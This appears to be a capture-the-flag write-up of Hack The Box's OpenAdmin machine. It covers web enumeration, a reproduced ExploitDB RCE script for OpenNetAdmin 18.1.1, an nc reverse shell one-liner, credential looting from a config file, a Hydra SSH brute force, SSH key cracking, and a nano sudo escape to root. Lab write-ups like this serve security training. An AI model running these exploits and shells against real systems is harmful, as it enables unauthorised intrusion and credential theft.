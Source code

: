 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image May 31, 2025, 09_02_25 AM.png
coverY: 0
---
```


# 🕵️ HTB: OpenAdmin – RCE, Privilege Escalation, and the Art of Improvisation

<figure><img src="../.gitbook/assets/ChatGPT Image May 31, 2025, 09_02_25 AM.png" alt=""><figcaption></figcaption></figure>

### 🔍 Enumeration Phase

We begin the usual way—**recon** with `nmap`.

**Open ports**:

* 22 (SSH)
* 80 (HTTP)

Port 80 means web enumeration. Time to let **ffuf** loose:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
ffuf -u http://10.10.10.171/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,204,301,302,307,401 -o results.txt
```

**Interesting hits**:

* `/music/`
* `/sierra/`
* `/artwork/`

Crawling with **hakrawler** through Burp gave a promising path:

```bash
cat urls.txt | hakrawler -proxy http://localhost:8080
```

Bingo. This is **OpenNetAdmin**, and version **18.1.1** specifically.

### 💥 Initial Foothold: RCE via OpenNetAdmin

Quick search on [ExploitDB](https://www.exploit-db.com/exploits/47691) brings up an RCE:

```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl -x http://localhost:8080 --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

With a little Burp Proxy magic, we got a working shell. Though unstable, it did the job.

### 🧠 Privilege Escalation Begins

Time for lateral movement. Classic reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f

```

```bash
nv -lvnp 1234
```

```bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### 📦 Credential Harvesting

A quick loot run on config files reveals gold:

```bash
cat /var/www/html/ona/local/config/database_settings.inc.php
```

```bash
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
```

### 🔐 SSH Brute-force and User Access

Grabbed usernames from `/etc/passwd`:

```
jimmy  
joanna  
root  
```

Brute-forced via Hydra:

```bash
hydra -L user.txt -P password.txt ssh://10.10.10.171

```

🎯 Hit confirmed: jimmy : n1nj4W4rri0R!



```bash
ssh jimmy@10.10.10.171
```

### 🕵️ Discovery and Key Recovery

Exploring `/var/www/internal` (finally accessible as jimmy), we find something new. The page isn’t accessible over HTTP, but we can curl it locally:

```bash
curl localhost:52846/main.php
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And boom—we find an SSH private key.

But it's encrypted. Time for `john` magic:

```bash
ssh2john key > hash  
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

### ⚡ Privilege Escalation to Root

We check what joanna can run:

```
sudo -l
```

Allowed to run:

```
/bin/nano /opt/priv
```

We abuse it using a classic `nano` GTFOBins technique:

Inside nano:

```
^R^X
cat /root/root.txt
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

for a shell

```
^R^X
reset; sh 1>&0 2>&0

```

